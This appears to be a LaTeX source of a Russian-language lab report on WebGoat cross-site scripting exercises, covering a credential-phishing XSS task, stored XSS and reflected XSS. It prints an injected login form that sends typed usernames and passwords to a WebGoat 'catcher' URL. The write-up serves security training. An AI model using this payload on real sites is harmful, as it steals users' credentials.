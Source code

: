 \documentclass{article}
\begin{document}
\begin{itemize}
	
	\item В первом задании нужно ввести в поле поиска вредоносный код, например, такой:
	
	\begin{verbatim}
	<form>
	<form name="stealer">
	Username: <input type="text" name="username"><br>
	Password: <input type="password" name="password">
	<input type="submit" value="Submit" onclick=<script><img src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+ document.stealer.username.value + "&password=" + document.stealer.password.value + "">
	</script>
	</form>
	\end{verbatim}
	
	После чего появяться поля, где нужно будет ввести логин и пароль, которые будут переданы на нужный сервер.
	
	\item Хранимые Stored XSS
	
	Хранимый XSS является наиболее разрушительным типом атаки. Хранимый XSS возможен, когда злоумышленнику удается внедрить на сервер вредоносный код, выполняющийся в браузере каждый раз при обращении к оригинальной странице. Классическим примером этой уязвимости являются форумы, на которых разрешено оставлять комментарии в HTML формате без ограничений, а также другие сайты Веб 2.0 (блоги, вики, имиджборд), когда на сервере хранятся пользовательские тексты и рисунки. Скрипты вставляются в эти тексты и рисунки.
	
	В данном случае в одном из полей, которое храниться в базе данных и выводиться у других пользоателей нужно указать вредоностный javascript код в тэге <script>.
	
	Для предотвращения можно сделать валидацию по вооду данных и валидацию по выводу на сервере.
	
	\item Отраженные Reflected XSS
	
	Атака, основанная на отражённой уязвимости, на сегодняшний день является самой распространенной XSS-атакой. Эти уязвимости появляются, когда данные, предоставленные веб-клиентом, чаще всего в параметрах HTTP-запроса или в форме HTML, исполняются непосредственно серверными скриптами для синтаксического анализа и отображения страницы результатов для этого клиента, без надлежащей обработки. Отражённая XSS-атака срабатывает, когда пользователь переходит по специально подготовленной ссылке.
	
	
\end{itemize}
\end{document}
